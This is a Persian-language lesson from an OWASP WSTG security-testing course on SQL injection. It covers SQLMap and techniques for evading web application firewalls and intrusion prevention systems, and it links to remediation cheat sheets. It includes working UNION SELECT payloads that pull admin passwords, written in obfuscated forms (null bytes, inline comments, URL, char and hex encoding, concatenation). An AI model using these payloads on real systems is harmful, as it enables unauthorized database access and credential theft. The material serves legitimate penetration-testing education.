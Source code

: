 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### بررسی Automated Exploitation

بسیاری از شرایط و تکنیک‌های ارائه‌شده در اینجا را می‌توان به صورت خودکار و با استفاده از برخی ابزارها انجام داد. یکی از ابزارهای کاربردی در حوزه بررسی و اکسپلویت آسیب پذیری SQL Injection، ابزار SQLMap می باشد. در مقاله زیر، اطلاعاتی در مورد نحوه انجام یک بررسی خودکار با استفاده از SQLMapبیان شده است.

https://wiki.owasp.org/index.php/Automated_Audit_using_SQLMap


### بررسی SQL Injection Signature Evasion Techniques

این تکنیک‌ها برای دور زدن سیستم‌های دفاعی مانند فایروال‌های نرم‌افزاری وب (WAF)‏ یا سیستم‌های پیش‌گیری از نفوذ (‏IPS) مورد استفاده قرار می‌گیرند که در ادامه به برخی از آن‌ها اشاره شده است. البته شما می‌توانید جهت مطالعه بیشتر به لینک زیر نیز مراجعه نمایید:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

### روش Whitespace

یکی از روش های عبور از سیستم های امنیتی، کاهش فضا یا اضافه کردن فضاهایی است که بر دستورات SQL تاثیر نخواهند گذاشت.
```sql
or 'a'='a'
or 'a'  =  'a'
```
نمونه ای دیگر، اضافه کردن کاراکتر خاص مانند خط جدید یا tab است که اجرای دستورات SQL را تغییر نخواهد داد. برای مثال:


```sql
or
'a'=
        'a'
```


### روش Null Bytes

از Null Bytes (%00)‏ قبل از هر کاراکتری که برنامه (یا سیستم فیلترینگ برنامه) آن را مسدود می‌کند استفاده کنید.

برای مثال، اگر مهاجم قصد تزریق SQL زیر را تزریق داشته باشد:
```sql
' UNION SELECT password FROM Users WHERE username='admin'--
```
اضافه کردن Null Bytes در آن به صورت زیر خواهد بود:
```sql
%00' UNION SELECT password FROM Users WHERE username='admin'--
```
یا حتی به شکل زیر میتوان استفاده کرد:
```sql
' UN%00ION SE%00LE%00CT password FR%00OM U%00ser%00s W%00H%00E%00RE username='admin'%00-%00-
```
مورد بالا درصورتی استفاده میشود که WAF کلمات ورودی را پایش و عبارات دستوری SQL را درصورت مشاهده، حذف میکند.

### روش SQL Comments

اضافه کردن Inline Comment ها درSQL نیز می‌تواند به معتبر ماندن دستورات SQL و دور زدن فیلتر تزریق SQL کمک کند. این تزریق SQL زیر را به عنوان مثال در نظر بگیرید:
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```

اضافه کردن Inline Comment ها در آن به صورت زیر خواهد بود:
```sql
'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/ 'admin'--
' /**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE /**/ 'admin'--
```

### روش URL Encoding

روش دیگری که از آن می‌توان برای عبور از سیستم‌های امنیتی بهره برد، استفاده از کدگذاری URL برای کدگذاری دستورات SQL است.
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```
کدگذاری URL برای تزریق SQL به شکل زیر خواهد بود:
```sql
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
```
### روش Character Encoding

از تابع char() می‌توان برای جایگزین کردن کاراکترها استفاده کرد. به عنوان مثال، char(114,111,111,116) به معنی root است.
```sql
' UNION SELECT password FROM Users WHERE name='root'--
```

پس از اعمال char() تزریق SQL به شکل زیر خواهد بود:
```sql
' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--
```
### روش String Concatenation

متد Concatenation یا الحاق، کلمات کلیدی SQL را شکسته (به دو یا چند قسمت تقسیم نموده) و می‌تواند منجر به عبور از مکانزیم های امنیتی شود. Syntax الحاق براساس پایگاه‌داده متفاوت خواهد بود. پایگاه‌داده MSSQL را به عنوان مثال در نظر بگیرید.
```sql
SELECT 1
```
عبارت SQL ساده را می توان به صورت زیر با استفاده از الحاق تغییر داد.
```sql
EXEC('SEL' + 'ECT 1')
```
### روش Hex Encoding

تکنیک کدگذاری Hex از کدگذاری Hexadecimal برای جایگزین کردن دستور SQL اصلی استفاده می‌کند. برای مثال عبارت root می‌تواند به صورت 726F6F74 نمایش داده شود.

```sql
Select user from users where name = 'root'
```

عبارت SQL با استفاده از مقدار HEX به صورت زیر خواهد بود:
```sql
Select user from users where name = 726F6F74
```
یا
```sql
Select user from users where name = unhex( '726F6F74')
```

### روش Declare Variables

روش دیگری که می توان از آن استفاده نمود، استفاده از Declare است. با استفاده Declare شما می توانید دستورات تزریق SQL خود را تعریف و اجرا نمایید.
برای مثال، عبارت تزریق SQL زیر را در نظر بگیرید:
```sql
UNION SELECT password
```

عبارت SQL خود را در متغیر SQLivar تعریف کنید:
```sql
; declare @SQLivar nvarchar(80); set @myvar N'UNI' + N'ON' + N' SELECT' + N'password'); EXEC(@SQLivar)
```


### با با متد Alternative Expression


```sql
OR 'SQLi' ='SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1
OR 2 between 3 and 1
OR 'SQLi' = N'SQLi'
1 and 1 1
1 || 1 = 1
1 && 1 = 1
```
### راهکار Remediation

برای ایمن کردن برنامه از آسیب‌پذیری‌های تزریقSQL، می‌توانید به CheatSheet پیش‌گیری از تزریق SQL مراجعه کنید:

* https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
* https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html
* https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
